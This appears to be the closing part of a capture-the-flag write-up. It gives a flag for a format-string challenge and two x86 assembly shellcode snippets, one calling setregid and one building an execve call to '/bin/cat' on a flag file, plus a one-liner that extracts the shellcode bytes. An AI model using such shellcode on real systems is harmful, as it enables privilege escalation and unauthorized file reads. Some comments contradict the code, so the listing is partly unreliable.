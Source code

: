 * result:
    * flag: ``SKCTF{b4d_f0rm47_57r1n6_:(}``

### Supplementary Scripts
#### ``setregid.s``
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start

# objdump -d setregid | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

_start: 
    xor ebx, ebx
    mov bx, 1006 # setlev 1004
    

    xor ecx, ecx
    mov cx, 1006 # setlevflag 1004
    
    # perform syscall for 11 (execve)
    xor eax, eax
    mov    al, 71    # Set eax to 71 (setregid)
    int    0x80      # Trigger interrupt to make the syscall

```

### ``bin_cat.s``
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start


# objdump -d bin_cat | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

# char *args[] = {"/bin/cat", "flagtxt", NULL}
#   execve("/bin/cat", args, NULL)
_start:
    xor eax, eax
    
    # Push "/bin/cat" onto the stack (including the null terminator)
    push eax        # NULL terminator for "/bin/cat"
    push 0x7461632f # "cat/"
    push 0x6e69622f # "bin/"
    mov ebx, esp
    
    # Push "flagtxt" onto the stack (including the null terminator)
    push eax        # NULL terminator for "flagtxt"
    push 0x7478742e # "txt"
    push 0x67616c66 # "flag"
    mov ecx, esp
    
    # Now set up argv array (pointers to "/bin/cat" and "flagtxt", followed by NULL)
    push eax    # NULL for argv[2]
    push ecx    # Pointer to "flagtxt" (argv[1])
    push ebx    # Pointer to "/bin/cat" (argv[0])
```